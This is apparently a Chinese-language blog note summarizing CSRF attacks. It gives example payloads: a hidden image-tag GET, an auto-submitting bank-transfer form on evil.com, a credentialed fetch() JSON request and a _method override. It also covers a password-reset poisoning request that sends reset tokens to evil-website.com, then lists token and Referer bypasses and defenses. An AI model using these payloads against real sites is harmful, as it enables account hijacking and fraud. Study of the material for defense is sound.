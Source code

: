 ```yaml
---
layout: mypost
title: CSRF总结
categories: [Web]
extMath: true
---
```


# CSRF总结

## 说明

**CSRF**：攻击者诱骗一个**已登录目标网站的用户**，在**不知情**的情况下，访问一个恶意链接或页面，从而以该用户的身份**执行了目标网站的非预期操作**。

**关键要素：**

1. **用户已登录**并具有有效的会话（Session/Cookie）。
2. **网站完全依赖会话Cookie**来识别用户身份，没有其他机制（如Token）来验证请求的意图。
3. **攻击者能预测**网站操作所需的请求参数（URL、表单字段）。
4. **用户被动地触发**了请求（如点击链接、加载图片、提交表单）。

白话：就是字面理解客户端请求伪造即可，伪造一个恶意请求通过诱导以其他用户的身份发给服务器。

## 利用

### 常见情况

1. GET
    
    诱导用户点击一个恶意的URL，比如点赞，修改信息什么的，这种方式主要是用与参数GET传递
    

```jsx
https://vulnerable-website.com/email/change?email=attacker@evil.com

也可以嵌套在第三方网站的页面JS里：
<!-- 在一个论坛帖子或邮件中嵌入 -->
<img src="https://vulnerable-website.com/email/change?email=attacker@evil.com" width="0" height="0" border="0">
```

1. POST
    
    大多数重要操作（如转账、改密码）都使用`POST`请求。这需要构造一个自动提交的表单。
    这种主要操作是模仿目标网站的目标功能的运行流程创建一个恶意的表单，将这个页面置于可控web上，诱导用户访问从而达成攻击目的（burpsuite可以根据抓到的包快捷生成CSRF的恶意payload）
    

```jsx
<!-- 恶意页面 evil.com/csrf.html -->
<body onload="document.forms[0].submit()">
  <form action="https://bank.com/transfer" method="POST">
    <input type="hidden" name="to" value="ATTACKER_ACCOUNT">
    <input type="hidden" name="amount" value="10000">
    <input type="hidden" name="currency" value="USD">
  </form>
</body>
```

### JSON CSRF

这种就是POST但是数据通过JSON发送，但是浏览器默认的`<form>`无法直接发送`application/json`内容类型

1. GET
    
    类似于常见情况
    
    payload：
    

```jsx
https://victim.com/api/update?json={"role":"admin"}
```

1. POST
    
    需要结合**CORS和Fetch API构造`<script>`标签**
    
    ```jsx
    <script>
    fetch('https://api.vulnerable-app.com/profile/update', {
        method: 'POST',
        credentials: 'include', // 关键！携带目标网站的Cookie
        headers: {
            'Content-Type': 'application/json', // 正确的JSON Content-Type
        },
        body: JSON.stringify({ "email": "attacker@evil.com" }) // JSON数据
    });
    </script>
    ```
    

### 基于XML的CSRF (XSRF)

应用接受XML格式（如SOAP API），可以构造一个XML payload并通过表单提交。

```jsx
<form action="https://vulnerable.com/soap/endpoint" method="POST">
  <input type="hidden" name="xml" value='<?xml version="1.0"?><soap:Envelope>...<email>attacker@evil.com</email>...</soap:Envelope>'>
</form>
```

### 常见组合拳

1. CSRF加XSS
    
    xss设置HTTP only无法返回cookie时，通过xss返回目标的token，借助这个token构造恶意的CSRF表单进行恶意操作
    
2. CSRF密码重置
    1. 先发起一个**针对受害者账户**的密码重置请求。
    2. 在请求中，篡改`Host`头或使用`X-Forwarded-Host`头，将重置链接指向攻击者控制的服务器。
        
        ```
        POST /forgot-password HTTP/1.1
        Host: vulnerable-website.com
        ...
        X-Forwarded-Host: evil-website.com
        
        email=victim@normal-user.com
        ```
        
    3. 应用生成的重置链接将是：`https://evil-website.com/reset?token=RESET_TOKEN`
    4. 受害者会收到一封合法的重置邮件，但里面的链接指向恶意站点。
    5. 攻击者在`evil-website.com`上部署一个页面，记录下URL中的`token`参数，然后重定向到真实的重置页面。
    6. 攻击者使用这个token重置受害者的密码，完成账户劫持。

## 绕过

### token泄露

通过xss等获取到token在进行CSRF攻击

### **Token绑定与可靠性**

1. 如果Token只是简单地生成并验证，但没有与特定用户的会话（Session）关联，攻击者可以先访问表单页面获取自己的有效Token，然后在构造给受害者的CSRF Payload中使用这个Token。服务器验证Token有效，请求通过。
2. 如果Token的生成算法很弱（如基于时间戳），攻击者有可能预测出受害者的Token。或者Token没有一次性使用的限制，可以被重复利用（重放攻击）。
3. HTTP方法转换
    
    某些框架允许通过参数（如`_method=PUT`）来转换HTTP方法。如果应用在`POST`请求中验证Token，但对转换后的`PUT`请求不做验证，则可能被绕过。
    
    ```jsx
    <form action="https://vulnerable-site.com/change-email" method="POST">
        <input type="hidden" name="_method" value="PUT"> <!-- 转换为PUT请求 -->
        <input type="hidden" name="email" value="attacker@evil.com">
        <!-- 可能不需要Token，或者需要尝试预测 -->
    </form>
    ```
    

### 绕过Origin/Referer头验证

1. 缺失或伪造Referer头
2. 利用HTTPS -> HTTP降级
3. 利用域名后缀欺骗或子域名劫持

## 防御

1. 同步器token模式
    
    为每个会话生成可靠的随机的token
    
2. SameSite Cookie属性
    
    限制跨站请求时是否携带 Cookie，从浏览器层面降低甚至根本解决了 CSRF 风险
    
3. 验证HTTP Referer/Origin头
4. 二次验证
5. API使用JSON格式
